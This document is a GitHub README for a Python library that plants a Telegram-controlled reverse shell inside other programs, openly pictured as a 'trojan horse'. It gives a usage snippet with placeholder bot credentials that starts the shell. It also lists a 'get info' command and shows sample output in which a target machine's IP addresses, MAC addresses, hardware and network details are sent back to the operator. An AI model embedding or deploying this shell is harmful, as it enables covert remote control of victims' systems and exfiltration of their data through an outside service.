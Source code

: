  <p align="center">
<img src='./cover.png' style="border: white;border-radius: 2pc;" alt='trojan horse'/>
</p>

# py tel reverse shell 
![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54) ![Telegram](https://img.shields.io/badge/Telegram-2CA5E0?style=for-the-badge&logo=telegram&logoColor=white)
> the reverse shell in your telgram!

<br>

[![GitLicense](https://gitlicense.com/badge/TorhamDev/pybotnet)](https://gitlicense.com/license/TorhamDev/gitlicense)
## What is this?
This program is a Python library that you can use to put an inverted shell connected to Telegram in any program. And control the target system from within the telegram.

# How does it work?
Currently, this **Python library** cannot be installed using pip, but it can be used this way anyway.

```python 
# sample program
from py_tel_reverse_shell import tel_shell



## get token from @BotFather in telegram
my_token = "2018473XXXXXXXXXXXXXXXXXXXXX-3M"
## get your number id from @userinfobot in telegram
my_chat_id = "19XXXXX25"


tel_shell.start_shell(bot_token=my_token,chat_id=my_chat_id)
```
and over. You can easily put an inverted shell connected to Telegram in your program.

<br>

# options
*You can send these words to the robot to get the answer.*
```bash
get info #get full info from target
```
sample output:
```text
-------- Boot Time -----------
 Boot Time: 2021/9/20 13:56:22
 -------- system info -----------
 platform: Linux
 platform-release: 5.13.16-200.fc34.x86_64
 platform-version: 1 SMP Mon Sep 13 12:39:36 UTC 2021
 architecture: x86_64
 hostname: optimus
 ip-address: 192.168.1.36
 public IP address: 31.xxx.xxx.32
 -------- CPU info -----------
 processor: x86_64
 Physical cores: 2
 Total cores: 2
 Max Frequency: 3200.00Mhz
 Min Frequency: 800.00Mhz
 Current Frequency: 895.82Mhz
 Total CPU Usage: 23.4%
 -------- Memory info -----------
 Total: 7.66GB
 Available: 4.81GB
 Used: 2.09GB
 Percentage: 37.2%
 -------- SWAP info -----------
 Total: 14.66GB
 Free: 14.40GBUsed: 266.50MBPercentage: 1.8%
 -------- Network info -----------
=== Interface: lo ===
 IP Address: 127.0.0.1
 Netmask: 255.0.0.0
 Broadcast IP: None
=== Interface: lo ===
 MAC Address: 00:00:00:00:00:00
 Netmask: None
 Broadcast MAC: None
=== Interface: enp2s0 ===
 IP Address: 192.168.1.36
 Netmask: 255.255.255.0
 Broadcast IP: 192.168.1.255
=== Interface: enp2s0 ===
 MAC Address: 1c:xx:xx:xx:a2:c8
 Netmask: None
 Broadcast MAC: ff:ff:ff:ff:ff:ff
=== Interface: virbr0 ===
 IP Address: 192.168.122.1
 Netmask: 255.255.255.0
 Broadcast IP: 192.168.122.255
=== Interface: virbr0 ===
 MAC Address: 52:xx:xx:xx:6c:93
 Netmask: None
 Broadcast MAC: ff:ff:ff:ff:ff:ff
 Total Bytes Sent: 83.69MBTotal Bytes Received: 175.42MB
```